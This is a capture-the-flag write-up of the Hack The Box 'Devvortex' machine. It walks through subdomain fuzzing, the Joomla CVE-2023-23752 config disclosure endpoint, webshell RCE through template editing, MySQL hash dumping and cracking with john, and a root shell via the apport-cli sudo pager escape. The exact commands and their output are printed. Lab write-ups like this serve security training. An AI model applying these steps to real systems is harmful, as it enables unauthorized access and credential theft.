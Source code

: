 # Devvortex

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.37.255                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-30 10:25 EST
Nmap scan report for 10.129.37.255
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed scan for the HTTP port as well:

```
$ nmap -p 80 -sC -sV --min-rate 3000 10.129.37.255
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-30 10:26 EST
Nmap scan report for 10.129.37.255
Host is up (0.0074s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `devvortex.htb` to the `/etc/hosts` file.

### Web Enum -> CVE-2023-23752 Disclosure

The website was a corporate website for a service provider:

![](../../.gitbook/assets/htb-devvortex-image.png)

There was nothing inherently interesting about this site, so I went ahead with a `gobuster` directory and `wfuzz` subdomain scan.

`wfuzz` picked up on a `dev` subdomain, whereas `gobuster` didn't pick up on much:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.devvortex.htb' --hc=302 -u http://devvortex.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://devvortex.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000019:   200        501 L    1581 W     23221 Ch    "dev"
```

Add this to the `/etc/hosts` file. This `dev` endpoint was looked to be another corporate site:

![](../../.gitbook/assets/htb-devvortex-image-1.png)

I checked the page source, and found a lot of references to a `cassiopeia` directory:

![](../../.gitbook/assets/htb-devvortex-image-2.png)

Googling for this led to Joomla! Content Management System showing up.

![](../../.gitbook/assets/htb-devvortex-image-3.png)

I checked online on how to enumerate this website, and found that visiting `/administrator/manifests/files/joomla.xml` would reveal the version running:

![](../../.gitbook/assets/htb-devvortex-image-4.png)

There are a number of vulnerabilities that affect this version of Joomla, most notably an unauthenticated information disclosure one.

{% embed url="https://www.exploit-db.com/exploits/51334" %}

Reading the script, it seems that visiting `/api/index.php/v1/config/application?public=true` would show a password, and it worked!

![](../../.gitbook/assets/htb-devvortex-image-5.png)

There was a user `lewis`, and using this password allowed me to sign in to the admin panel at `/administrator`.

![](../../.gitbook/assets/htb-devvortex-image-6.png)

Hacktricks tells me that RCE is possible from here by replacing a `.php` file with a webshell, similar to Wordpress.

![](../../.gitbook/assets/htb-devvortex-image-7.png)

After saving, I tested and found that RCE works:

![](../../.gitbook/assets/htb-devvortex-image-8.png)

From here, getting a reverse shell is easy.

![](../../.gitbook/assets/htb-devvortex-image-9.png)

## Privilege Escalation

### MySQL Enum -> User Creds

There is a user `logan` within this machine, and I cannot read the user flag yet.

```
www-data@devvortex:/home$ ls -la
total 12
drwxr-xr-x  3 root  root  4096 Sep 26 19:16 .
drwxr-xr-x 19 root  root  4096 Oct 26 15:12 ..
drwxr-xr-x  3 logan logan 4096 Nov 21 11:04 logan
```

Since we had the password of `lewis`, I thought to check the MySQL database present:

```
www-data@devvortex:~/dev.devvortex.htb$ netstat -tulpn 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -

<TRUNCATED>

www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4019
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

From this database, I grabbed the hashed password of `logan`, then cracked it using `john`. 

```
mysql> select * from sd4fg_users;
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:08 DONE (2023-11-30 10:51) 0.1203g/s 168.9p/s 168.9c/s 168.9C/s lacoste..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Using this password, I could `su` to `logan`.

### Sudo Privileges -> Apport-CLI Exploit

`logan` can run `apport-cli` as the `root` user:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Checking the version, both the distro and version of the software were outdated and had a specific exploit for it:

```
logan@devvortex:~$ /usr/bin/apport-cli --version
2.20.11
logan@devvortex:~$ cat /etc/lsb-release 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.6 LTS"
```

{% embed url="https://security.snyk.io/vuln/SNYK-UBUNTU2210-APPORT-5422155" %}

{% embed url="https://bugs.launchpad.net/ubuntu/+source/apport/+bug/2016023" %}

I tried to use the application, and it kept telling me I needed to have a crash report.

```
logan@devvortex:~$ /usr/bin/apport-cli
No pending crash reports. Try --help for more information.
```

Based on this, I had to create a crash report which would be stored in `/var/crash`, which can be done like so:

```bash
sleep 10 &
killall -SIGSEGV sleep
```

Afterwards, following the exploit, the crash dump file will be located `/var/crash`, and I could access it and use option 'V':

```
logan@devvortex:/var/crash$ sudo /usr/bin/apport-cli -c _usr_bin_sleep.1000.crash
<TRUNCATED>

What would you like to do? Your options are:
  S: Send report (29.9 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
<TRUNCATED> (This will generate a lot of output)
```

Then, just `!bash` to get a `root` shell:

![](../../.gitbook/assets/htb-devvortex-image-10.png)

Rooted!